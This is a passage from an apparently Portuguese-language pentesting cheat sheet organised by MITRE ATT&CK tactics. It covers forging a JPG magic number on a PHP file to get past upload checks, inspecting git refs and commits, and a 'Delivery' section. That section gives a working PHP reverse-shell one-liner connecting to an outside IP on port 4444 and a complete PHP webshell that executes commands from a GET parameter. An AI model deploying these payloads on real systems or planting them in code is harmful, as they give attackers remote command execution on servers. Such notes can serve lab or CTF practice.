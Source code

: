                 - jpg
                    
                    ```php
                    printf '\xFF\xD8' > imagem_with_magic_number_jpg.php
                    ```
                    
                - Descobrindo magic number de um arquivo
                    
                    ```php
                    head -3 /home/lsaldanha/Downloads/MicrosoftTeams-image.png | xxd
                    ```
                    
    - GitHub?
        - Verifique quais branchs existentes
            
            ```bash
            cat .git/packed-refs
            ```
            
        - Verifica as tags existentes
            
            ```bash
            git tag
            ```
            
        - Verifica quais commits
            
            ```bash
            git log
            ```
            
        - Verifica detalhes de commits ou tags
            
            ```bash
            git show (tag ou commit)
            ```
            
    - JWT?
        - 
        
        ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2f572590-2dbb-45dd-b1a4-ec0a50cdba22/Untitled.png)
        
- **Delivery** ([TA0042](https://attack.mitre.org/tactics/TA0042/) e [TA0001](https://attack.mitre.org/tactics/TA0001/))
    - Shell
        - PHP_EXEC
            
            ```jsx
            php -r '$sock=fsockopen("10.9.24.235",4444);exec("sh <&3 >&3 2>&3");'
            ```
            
        - WebShell PHP
            
            ```jsx
            <html>
            <body>
            <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
            <input type="TEXT" name="cmd" id="cmd" size="80">
            <input type="SUBMIT" value="Execute">
            </form>
            <pre>
            <?php
                if(isset($_GET['cmd']))
                {
                    system($_GET['cmd']);
                }
            ?>
            </pre>
            </body>
            <script>document.getElementById("cmd").focus();</script>
            </html>
